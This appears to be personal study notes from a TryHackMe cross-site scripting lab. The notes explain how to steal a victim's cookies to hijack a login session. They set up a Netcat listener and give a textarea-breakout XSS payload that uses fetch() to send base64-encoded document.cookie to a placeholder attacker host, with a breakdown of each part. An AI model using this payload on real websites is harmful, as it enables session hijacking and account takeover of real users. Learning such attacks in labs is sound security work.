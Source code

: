 
## Cookies Stealing Payload
Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![[Pasted image 20240609233947.png]]

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.

![[Pasted image 20240609234127.png]]
![[Pasted image 20240609234144.png]]
